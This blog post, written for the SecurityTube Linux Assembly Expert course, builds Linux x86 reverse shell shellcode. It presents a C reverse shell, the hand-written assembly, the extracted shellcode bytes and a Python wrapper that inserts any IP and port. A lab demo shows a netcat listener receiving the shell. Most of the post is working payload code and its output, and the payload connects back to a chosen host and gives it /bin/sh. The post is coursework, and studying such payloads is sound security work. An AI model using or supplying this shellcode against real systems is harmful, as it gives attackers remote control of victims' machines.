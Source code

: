 ```yaml
---
layout: post
title: "SLAE Assignment #2 | Reverse shell"
date: 2018-01-27
comments: true
categories:
---
```


Assignment #2 in the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam is to 
create a exec reverse shell shellcode.

I rewrote the c-program in [SLAE Assignment #1 | Bind shell](http://tomasuh.github.io/2016/03/28/bind.html) to become a reverse shell instead of a bind:
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <unistd.h>

#define PORT 4451

int main(char* arg[], int argv){
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(PORT);
    inet_aton("127.0.0.1", &addr.sin_addr.s_addr);

    int sockFD = socket(AF_INET, SOCK_STREAM, 0);


    int sizeOfAddr = sizeof(addr);

    connect(sockFD, (struct sockaddr *) &addr, sizeOfAddr);

    dup2(sockFD, STDOUT_FILENO);
    dup2(sockFD, STDIN_FILENO);
    dup2(sockFD, STDERR_FILENO);

    char *argvV[] = {"/bin/sh",NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argvV, envp );

    return 0;
}

```

Notable changes from the previous version:
* `bind`, `listen` and `accept` has been replaced with `connect`.

Index for the `sys_connect` call is `3`:
```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ cat /usr/include/linux/net.h | grep SYS_CONNECT
#define SYS_CONNECT     3               /* sys_connect(2)   
```

Now lets modify the assembly from assignment 1.

```
global _start

section .text

_start:

socket:

xor eax,eax
push eax ;protocol
inc eax
push eax ;SOCK_STREAM
inc eax
push eax ;AF_INET

mov al, 0x66 ;sys_socketcall
mov ebx, [esp+4] ; socket(AF_INET, SOCK_STREAM, 0)
mov ecx, esp ; socket args
int 0x80

mov edi, eax

; file descriptor now in eax

bind:

push 0x11223344 ;ip replace me in wrapper
xor ebx,ebx ;zero out ebx

;AF_INET (0002) and sin_port ffff
;push 0xcdab0002 <-- zero bytes
mov cx, 0xcccc ; port number, replace me in wrapper
shl ecx, 0x10
mov cl, 0x2 ; <-- AF_INET
push ecx

;setup arguments
mov [esp-8],esp ;load the sockaddr struct address  on the stack at correct offset

push 0x10 ; size of sockaddr_in is 16 bytes

sub esp,0x4 ; correct the stack offset because of preload of sockaddr_in struct

push eax ; file descriptor

mov al, 0x66 ;sys_socketcall
mov bl, 0x3 ; connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
mov ecx, esp ;arguments
int 0x80

dup2:
xor ecx, ecx
mov eax, edi ;eax=fd 
jump:

mov al, 0x3f ; dup2 sys call
int 0x80 ;int dup2(int oldfd, int newfd);
inc ecx ;
cmp ecx,0x2 ; call dup for stdin,stdout,stderr
jle jump

execve:
xor eax,eax
push dword [esp-8] ; referencing null being pushed below
push eax ;ends /bin//sh with null and argv and envp as null arguments

mov edx, esp; envp
mov ecx, esp ; argv
push 0x68732f2f;//sh
push 0x6e69622f;/bin
mov ebx, esp
mov al, 0xb ;; execve(const char *filename, char *const argv[],char *const envp[]);
int 0x80
```

Compiling and exporting shellcode:

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ ../tools/format_shellcode.py reverse_shell
Python style shellcode:
"\x31\xc0\x50\x40\x50\x40\x50\xb0\x66\x8b\x5c\x24\x04\x89\xe1\xcd\x80\x89\xc7\x68\x44\x33\x22\x11\x31\xdb\x66\xb9\xcc\xcc\xc1\xe1\x10\xb1\x02\x51\x89\x64\x24\xf8\x6a\x10\x83\xec\x04\x50\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x31\xc9\x89\xf8\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\xff\x74\x24\xf8\x50\x89\xe2\x89\xe1\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

NASM stylish:
0x31,0xc0,0x50,0x40,0x50,0x40,0x50,0xb0,0x66,0x8b,0x5c,0x24,0x04,0x89,0xe1,0xcd,0x80,0x89,0xc7,0x68,0x44,0x33,0x22,0x11,0x31,0xdb,0x66,0xb9,0xcc,0xcc,0xc1,0xe1,0x10,0xb1,0x02,0x51,0x89,0x64,0x24,0xf8,0x6a,0x10,0x83,0xec,0x04,0x50,0xb0,0x66,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x31,0xc9,0x89,0xf8,0xb0,0x3f,0xcd,0x80,0x41,0x83,0xf9,0x02,0x7e,0xf6,0x31,0xc0,0xff,0x74,0x24,0xf8,0x50,0x89,0xe2,0x89,0xe1,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0xb0,0x0b,0xcd,0x80
```


Now lets create a wrapper around the shellcode to be able to set IP and port:
```python
#!/usr/bin/python

import struct
import socket

def format_shellcode(ip, port):
  return "\\x31\\xc0\\x50\\x40\\x50\\x40\\x50\\xb0\\x66\\x8b\\x5c\\x24\\x04\\x89" +\
          "\\xe1\\xcd\\x80\\x89\\xc7\\x68" +\
          ip +\
          "\\x31\\xdb\\x66\\xb9" + \
          port + \
          "\\xc1\\xe1\\x10\\xb1\\x02\\x51\\x89\\x64\\x24\\xf8\\x6a\\x10\\x83\\xec" + \
          "\\x04\\x50\\xb0\\x66\\xb3\\x03\\x89\\xe1\\xcd\\x80\\x31\\xc9\\x89\\xf8" + \
          "\\xb0\\x3f\\xcd\\x80\\x41\\x83\\xf9\\x02\\x7e\\xf6\\x31\\xc0\\xff\\x74" + \
          "\\x24\\xf8\\x50\\x89\\xe2\\x89\\xe1\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f" + \
          "\\x62\\x69\\x6e\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

def get_ip(addr):
  return socket.inet_aton(addr)


def packPort(port):
  return struct.pack("!H", port)

def format_val(string):
  return "\\x" + "\\x".join("{:02x}".format(ord(c)) for c in string)

ip = raw_input("IP:")

if ip == "":
  ip = "172.16.143.141"

ipEnc = format_val(get_ip(ip))

port = int(raw_input("Port:"))

portEnc = format_val(packPort(port))

print format_shellcode(ipEnc, portEnc)
```

Running it:

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ ./wrapper.py 
IP:172.16.143.141
Port:4444
\x31\xc0\x50\x40\x50\x40\x50\xb0\x66\x8b\x5c\x24\x04\x89\xe1\xcd\x80\x89\xc7\x68\xac\x10\x8f\x8d\x31\xdb\x66\xb9\x11\x5c\xc1\xe1\x10\xb1\x02\x51\x89\x64\x24\xf8\x6a\x10\x83\xec\x04\x50\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x31\xc9\x89\xf8\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\xff\x74\x24\xf8\x50\x89\xe2\x89\xe1\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

Now we can try to run the shellcode:

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ ../tools/runShellcode.py "\x31\xc0\x50\x40\x50\x40\x50\xb0\x66\x8b\x5c\x24\x04\x89\xe1\xcd\x80\x89\xc7\x68\xac\x10\x8f\x8d\x31\xdb\x66\xb9\x11\x5c\xc1\xe1\x10\xb1\x02\x51\x89\x64\x24\xf8\x6a\x10\x83\xec\x04\x50\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x31\xc9\x89\xf8\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\xff\x74\x24\xf8\x50\x89\xe2\x89\xe1\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
```

And at the same time in another terminal:

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ nc -l 4444
ls
1
peda-session-dash.txt
peda-session-reverse_shell.txt
poc
poc.c
reverse_shell
reverse_shell.asm
reverse_shell.o
wrapper.py
exit
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-2$ 
```

Great, it worked out :)

It should be noted that IP-addresses with null-bytes are not supported.

---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569

